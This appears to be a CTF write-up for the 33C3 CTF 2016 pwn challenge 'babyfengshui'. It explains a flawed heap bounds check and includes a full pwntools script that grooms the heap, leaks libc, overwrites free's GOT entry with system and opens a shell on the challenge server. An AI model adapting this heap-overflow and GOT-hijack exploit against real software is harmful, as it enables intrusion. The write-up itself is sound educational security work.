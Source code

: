```yaml
---
title: 33C3 CTF 2016 -- babyfengshui
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2016-12-30 00:27
tags:
- 33C3
- CTF
- Pwnable
- heap_overflow
- heap
- Python
categories:
- write-ups
---
```


**Category:** pwn
**Points:** 150

<!-- more -->  

32 bit ELF, with Partial RELRO, canary & NX enabled, No PIE  

program menu:
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
Here's the data structure of a user:
```c 
struct user{
    char* desc;
    char name[124];
};
```
The program will free `user->desc` & `user` while deleting a user. It also clear the pointer of the `user`, so there's no Use-After-Free vulnerability. 

The program has some strange protection while setting the user's description:
```c
// users = struct user *users[]
if ( &users[id]->desc[text_len] >= &users[id] - 4 )
{
    puts("my l33t defenses cannot be fooled, cya!");
    exit(1);
}
printf("text: ");
read_n(users[id]->desc, text_len + 1);
```
So `user->desc + text_len` must < `user` (both `user->desc` and `user` are pointers). Guess it use this protection to avoid heap overflow.

But what if we have the following heap memory layout?
```

            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```
According to the protection, `userD->desc + text_len` should less than `userD`, **which means it will be ok to overwrite the whole `userB` and `userC`**.

It is possible to arrange the above heap memory layout if we're familiar with malloc's memory allocation. We can then exploit the heap overflow vulnerability and modify the `userB->desc` pointer, making us able to do the **read/write anywhere** attack. After that is pretty simple, we leak the libc's base address and hijack `free`'s GOT to get the shell.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`